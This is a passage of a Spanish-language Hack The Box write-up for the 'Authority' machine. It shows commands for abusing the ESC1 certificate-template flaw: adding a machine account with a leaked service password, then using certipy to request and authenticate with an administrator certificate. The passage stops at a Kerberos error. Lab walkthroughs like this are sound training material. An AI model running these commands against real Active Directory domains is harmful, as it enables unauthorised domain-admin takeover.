 > Un certificate template con la vulnerabilidad ESC1 permite a los usuarios con pocos privilegios inscribirse y solicitar un certificado en nombre de cualquier objeto de dominio especificado por el usuario. Esto significa que cualquier usuario con derechos de inscripción puede solicitar un certificado para una cuenta privilegiada, como la de administrador de dominio.
{: .prompt-info }
### Explotación de la vulnerabilidad ESC1
En el artículo [**Abusing Active Directory Certificate Services**](https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/), nos enseñan como explotar la vulnerabilidad ESC1.  
> Antes de hacer lo que indican en el artículo necesitamos un `usuario` y `password` que estén asociados al template vulnerable, como `AUTHORITY.HTB\Domain Computers` está presente en el template, entonces, todas las computadoras pertenecen al template. Por lo tanto, si agregamos una nueva computadora al dominio podremos explotar la vulnerabilidad. 
{: .prompt-tip } 
Para realizar esta acción vamos a utilizar la herramienta `impacket-addcomputer` que permite agregar una computadora.
```bash
impacket-addcomputer authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -dc-ip 10.10.11.222 -computer-name test$ -computer-pass Test123456
```
> Donde:  
	 authority.htb/svc_ldap:\'lDaP_1n_th3_cle4r!\' -> tiene la estructura de dominio/usuario:\'password \'.  
	 -computer-name -> específica el nombre de la computadora; siempre debe ir $ después del nombre.  
	 -computer-pass -> específica el password de la computadora.  
{: .prompt-info }
La computadora se creó correctamente.  
![Desktop View](/writeup-htb-authority/add computer.png)
_Add computer_
Con los datos de esta máquina ya podemos explotar la vulnerabilidad ESC1. De acuerdo al artículo se debe de utilizar la opción `req` de certipy.
```bash
certipy-ad req -u 'test$@authority.htb' -p 'Test123456' -ca 'AUTHORITY-CA' -target 10.10.11.222 -template 'CorpVPN' -upn 'administrator@authority.htb' -debug
```
> Donde:  
	 -target -> específica ip de la máquina victima.  
	 -ca -> específica Certificate Authorities(CA).  
	 -u -> específica el usuario seguido de @ y luego el dominio (el usuario es el nombre de la computadora creada).  
	 -p -> específica el password (el password es de la computadora creada) .  
	 -template -> específica el certificate templates vulnerable.  
	 -upn -> específica el usuario objetivo del cual queremos obtener sus permisos.  
	 -debug -> muestra todo el proceso realizado.  
{: .prompt-info }

Se ejecutó correctamente y se obtuvo como resultado el archivo `administrator.pfx`.  
![Desktop View](/writeup-htb-authority/certipy req.png)
_Certipy req_
Con este archivo podemos intentar conectarse al sistema. Para esto usamos la opción `auth` de certipy.
```bash
 certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.222 -u administrator
```
> Donde:  
	 -pfx -> específica el archivo pfx.  
	 -u -> específica el usuario.  
{: .prompt-info }
Ejecutamos y sale el error: `Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)`.  
![Desktop View](/writeup-htb-authority/certipy auth.png)
_Certipy auth_